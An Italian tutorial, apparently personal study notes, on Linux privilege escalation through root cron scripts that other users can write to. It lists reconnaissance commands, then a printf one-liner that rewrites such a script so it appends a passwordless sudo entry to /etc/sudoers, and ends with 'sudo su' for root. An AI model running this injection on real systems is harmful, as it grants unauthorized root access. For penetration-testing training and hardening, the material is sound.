 # Exploiting Cron Jobs – Privilege Escalation via Misconfigurazioni

**Cron** è un demone di sistema su Linux che consente la pianificazione automatica di comandi, script o processi secondo una tempistica definita. <br>
Queste pianificazioni sono conosciute come **Cron Jobs**, e sono ampiamente utilizzate dagli amministratori per automatizzare operazioni di routine come backup, aggiornamenti o pulizie periodiche del sistema.

---

## 1 – Comprendere la Vulnerabilità

La potenziale falla nella sicurezza nasce quando uno script pianificato da **root** (quindi eseguito con privilegi massimi) è modificabile da altri utenti. <br>
In questi casi, un utente non privilegiato può **inserire comandi arbitrari** nello script e attendere che venga eseguito automaticamente dal sistema con permessi root. <br>
Questo scenario è particolarmente sfruttabile in ambienti server, dove gli amministratori fanno largo uso di cron per automatizzare attività.

---

## 2 – Ricognizione: Identificare i Cron Job Vulnerabili

Dopo aver ottenuto una shell sul sistema target con un utente non privilegiato:

```bash
whoami               # visualizza l’utente attuale
id o groups <nome>   # visualizza i gruppi a cui l’utente appartiene
```

Per identificare i cron job attivi:

```bash
crontab -l           # visualizza i cron job dell’utente corrente
ls -la /etc/cron*    # ispeziona i cron job globali o di sistema
```
<br>
Se troviamo un file creato dall'utente root ma di cui non abbiamo permessi, possiamo vedere se troviamo dei rifetimenti a quel file dentro qualche script o qualche file che possiamo leggere, modificare o eseguire:

```bash
grep -rnw /usr -e "/home/student/file"
```
- `r` sta per ricorsivo, quindi grep esplora tutte le sottodirectory della directory `/usr` specificata
- `-n` fa sì che grep mostri anche il numero di riga in cui trova la stringa.
- `-w` fa in modo che grep trovi solo corrispondenze esatte di parole intere. Questo vuol dire che non troverà /home/student/fileX o /home/student/file_bak, ma solo /home/student/file come stringa completa
- `usr` é la directory di partenza quindi verranno cercate corrispondenze partendo da quella directory
- `-e`  serve a specificare la stringa esatta che si vuole trovare

Controlla i permessi con:

```bash
ls -la <pathFile.sh>
```

Se uno script schedulato da root è **scrivibile dal nostro utente**, possiamo modificarlo per ottenere privilegi più elevati.

---

## 3 – Iniezione di Comandi per Privilege Escalation

se il file vulnerabile è modificabile e non abbiamo editor come `nano` o `vim`, possiamo utilizzare:

```bash
printf '#!/bin/bash\necho "student ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > /path/del/file.sh
```

- `printf` stampa la stringa successiva
- `#!/bin/bash\necho "student ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers` é lo script che vogliamo inserire dentro al file .sh che verrá esegtuito dal CronJob
- `>` sovrascrive completamente il file indicato successivamente
- `file.sh` è il file che verrá eseguito da CronJob e che vogliamo modificare


lo script che abbiamo indicato aggiunge una nuova entry al file `/etc/sudoers` (`>>` append/aggiungi alla fine), che concede all'utente `student` il permesso di eseguire qualsiasi comando come qualsiasi utente (incluso root), senza dover fornire la password (`ALL=(ALL) NOPASSWD:ALL`).


Dopo l’esecuzione del cron job, se il comando è andato a buon fine:

```bash
sudo -l
```

Il sistema restituirá un output simile a questo:
```
User student may run the following comands on <...>: 
	(root) NOPASSWD: /etc/init.d/cron
	(root) NOPASSWD: ALL
```

Allora possiamo eseguire comandi come root senza password:

```bash
sudo su
whoami
```

> Output previsto: `root`

Ora abbiamo controllo completo sul sistema e possiamo ispezionare tutti i cron job esistenti, incluso quello che ci ha garantito l’accesso:

```bash
crontab -l
```

---

